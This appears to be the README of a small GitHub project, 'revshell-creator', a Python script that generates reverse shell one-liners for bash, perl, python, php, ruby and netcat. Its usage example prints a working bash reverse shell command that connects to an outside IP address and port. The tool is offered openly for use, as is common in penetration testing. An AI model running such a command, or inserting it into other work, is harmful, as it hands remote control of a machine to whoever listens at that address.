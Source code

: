 # revshell-creator
A simple multi language reverse shell generator written in python3

## usage
```
$ git clone https://github.com/parzel/revshell-creator.git
$ cd revshell-creator
$ ./revshell-creator 
Usage: ./revs-creator 10.10.10.10 1234 bash
Options: bash, perl, python, python3, php, ruby, netcat, netcat_alt
$ ./revshell-creator 10.0.0.10 1234 bash
bash -i >& /dev/tcp/10.0.0.10/1234 0>&1
```